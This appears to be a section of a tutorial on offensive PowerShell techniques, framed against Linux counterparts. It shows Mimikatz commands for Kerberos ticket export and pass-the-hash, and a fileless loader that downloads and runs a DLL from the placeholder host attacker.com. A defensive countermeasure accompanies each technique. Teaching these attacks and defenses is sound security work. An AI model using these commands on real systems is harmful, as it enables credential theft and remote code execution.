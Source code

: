 
### **2. Advanced Offensive PowerShell Techniques**  
#### **(With Linux Counterparts for Context)**  

---

#### **A. Credential Theft (Like `mimipenguin`)**  
**Technique**: Extract Kerberos tickets from memory.  
```powershell  
# Extract Kerberos tickets (similar to extracting /etc/shadow)  
Invoke-Mimikatz -Command '"kerberos::list /export"'  
```  
**Defense**:  
- Enable **Credential Guard** (Windows’ version of SELinux for credentials).  
- Monitor for `LSASS` access:  
  ```powershell  
  Get-WinEvent -LogName Security -FilterXPath '*[System[EventID=10]]' # ProcessAccess event  
  ```  

---

#### **B. Fileless Attacks (Like in-memory `LD_PRELOAD`)**  
**Technique**: Execute payloads directly in RAM.  
```powershell  
# Reflective DLL injection (no disk write)  
$bytes = (Invoke-WebRequest -Uri "http://attacker.com/shellcode.dll").Content;  
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, $null)  
```  
**Defense**:  
- Enable **AMSI** (Antimalware Scan Interface):  
  ```powershell  
  Set-MpPreference -DisableScriptScanning $false  
  ```  
- Use **Constrained Language Mode**:  
  ```powershell  
  $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
  ```  

---

#### **C. Lateral Movement (Like `sshpass`)**  
**Technique**: Pass-the-Hash with WMI (similar to SSH key abuse).  
```powershell  
# Authenticate to a remote machine using NTLM hash  
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Admin /domain:corp /ntlm:HASH /run:powershell.exe"'  
```  
**Defense**:  
- Disable **NTLM** and enforce **Kerberos**.  
- Block WMI over network:  
  ```powershell  
  Set-NetFirewallRule -Name "WMI-In" -Action Block  
  ```  

---
